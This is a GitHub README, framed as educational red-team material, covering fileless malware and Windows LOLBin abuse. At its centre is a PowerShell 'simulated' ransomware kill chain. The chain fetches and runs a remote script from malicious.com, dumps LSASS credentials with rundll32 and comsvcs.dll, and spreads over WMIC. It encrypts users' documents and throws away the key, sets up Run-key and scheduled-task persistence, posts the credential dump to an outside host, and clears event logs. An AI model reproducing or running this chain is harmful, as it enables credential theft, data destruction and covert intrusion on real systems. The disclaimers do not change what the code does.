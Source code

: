 

# Overview

## ⚠️ Advisory Warning: Educational Use Only

This repository contains research material on advanced cybersecurity concepts, including NSFW (Not Safe for Work) topics such as **fileless malware**, **LOLBins abuse**, and **adversary simulation chains**.
All content is intended **solely for educational, academic, and controlled research lab environments**.

> **🚫 Do not deploy or reproduce any of the included techniques on unauthorized or production systems. Misuse may violate legal, ethical, and professional standards.**

![Screenshot 2025-03-06 125420](https://github.com/user-attachments/assets/e2ed9e6d-a4bf-422d-8536-118836ae1f24)

---

## 🧠 Threat Landscape Overview: Fileless Malware & LOLBins

**Fileless malware** operates exclusively in memory, avoiding disk writes to evade antivirus and EDR solutions. Leveraging trusted system binaries, attackers can bypass defenses without dropping a traditional file-based payload. These attacks often chain together native tools, scripts, and in-memory injection, leaving minimal forensic traces.

**LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries repurposed by adversaries for malicious activity. Since they’re signed and trusted, many defenses overlook them. Abuse of LOLBins is a common red team tactic mapped extensively in the [MITRE ATT\&CK](https://attack.mitre.org/) framework.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                     | Abused For                | ATT\&CK Tactics                   |
| -------------------------- | ------------------------- | --------------------------------- |
| `rundll32.exe`             | DLL execution             | Code execution, EDR bypass        |
| `mshta.exe`                | Run HTA payloads          | Script execution, sandbox evasion |
| `regsvr32.exe`             | Load COM DLLs             | Fileless execution, C2 proxy      |
| `wmic.exe`                 | Remote command execution  | Process launch, lateral movement  |
| `cmd.exe / powershell.exe` | Script runners            | Payload staging, persistence      |
| `msbuild.exe`              | Inline C# compile/exec    | Fileless malware loading          |
| `certutil.exe`             | Download/decode files     | Exfiltration, staging             |
| `bitsadmin.exe`            | Remote file fetch         | Delivery, task persistence        |
| `schtasks.exe`             | Task scheduling           | Privilege escalation, persistence |
| `esentutl.exe`             | Copy/exec binary payloads | Stealth operations, exfiltration  |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware

*Using [MITRE ATT\&CK](https://attack.mitre.org/) for Technique Mapping*

> ⚠️ **Disclaimer**: This PowerShell sequence is a synthetic simulation created for red team development in secure lab environments. Execution outside of controlled conditions is **strictly prohibited**.

<details>
<summary>🔐 Simulated PowerShell Ransomware Payload Chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Red Team Resources

* 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
* 🔍 [MITRE ATT\&CK Entry – S0697](https://attack.mitre.org/software/S0697/)
* 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
* 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
* 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* 🦠 [Wikipedia: Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
* 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is curated for cybersecurity researchers, malware analysts, and red team operators. It is not intended for malicious use or real-world deployment. Always adhere to your country’s cybercrime laws and organizational rules of engagement. Operate responsibly.

